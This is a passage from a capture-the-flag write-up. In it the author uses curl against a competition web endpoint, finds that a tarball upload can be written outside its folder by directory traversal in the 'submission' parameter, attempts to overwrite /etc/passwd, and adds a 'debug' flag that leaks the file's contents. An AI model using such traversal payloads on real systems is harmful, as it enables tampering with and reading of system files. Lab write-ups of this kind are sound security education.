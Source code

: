 Progress! Looks like the endpoint expects a gzip file. I'm not going to manually send gzip files, so let's move to curl.

```sh
tal@tal:~$ echo "test" > gzip_file && tar -czf gzip_file.tar.gz gzip_file
tal@tal:~$ curl -X POST "https://path-less-traversed-web.h4ck.ctfcompetition.com/import?submission=sample_submission&dryRun=true" -F "attachments=@gzip_file.tar.gz"
new file: sample_submission/gzip_file
```

Interesting - it seems that the file I uploaded ended up being written to `sample_submission/gzip_file`. Maybe this endpoint's code of constructing this path (as opposed to the `export` endpoint) is vulnerable to directory traversal?


```sh
tal@tal:~$ curl -X POST "https://path-less-traversed-web.h4ck.ctfcompetition.com/import?submission=../../&dryRun=true" -F "attachments=@gzip_file.tar.gz"
new file: ../../gzip_file
```

Promising! But what now? I'm not sure creation of new files is too powerful, but maybe I can force the server to overwrite existing files? This primitive might be powerful if I could override critical system files.

Without thiking too much, I tried overwriting `/etc/passwd`:

```sh
tal@tal:~$ echo "test" > passwd && tar -czf passwd.tar.gz passwd
tal@tal:~$ curl -X POST "https://path-less-traversed-web.h4ck.ctfcompetition.com/import?submission=../../etc&dryRun=true" -F "attachments=@passwd.tar.gz"
WARNING: file ../../etc/passwd already exists and would get overwritten (enable debug to see differences)
```

Oh. In hindsight it's good that I got a warning, as successfully overwriting could potentially break the server.

Anyway, I need to enable debug mode. Maybe it's a parameter like `dryRun`?

```sh
tal@tal:~$ curl -X POST "https://path-less-traversed-web.h4ck.ctfcompetition.com/import?submission=../../etc&dryRun=true&debug=true" -F "attachments=@passwd.tar.gz"
WARNING: file ../../etc/passwd already exists and would get overwritten (enable debug to see differences)
showing existing and new contents:
=====
< root:x:0:0:root:/root:/bin/ash
< bin:x:1:1:bin:/bin:/sbin/nologin
< daemon:x:2:2:daemon:/sbin:/sbin/nologin
< adm:x:3:4:adm:/var/adm:/sbin/nologin
< lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
< sync:x:5:0:sync:/sbin:/bin/sync
< shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
< halt:x:7:0:halt:/sbin:/sbin/halt
< mail:x:8:12:mail:/var/mail:/sbin/nologin
< news:x:9:13:news:/usr/lib/news:/sbin/nologin
< uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
< operator:x:11:0:operator:/root:/sbin/nologin
< man:x:13:15:man:/usr/man:/sbin/nologin
< postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
< cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
< ftp:x:21:21::/var/lib/ftp:/sbin/nologin
< sshd:x:22:22:sshd:/dev/null:/sbin/nologin
< at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
< squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
< xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
< games:x:35:35:games:/usr/games:/sbin/nologin
< cyrus:x:85:12::/usr/cyrus:/sbin/nologin
```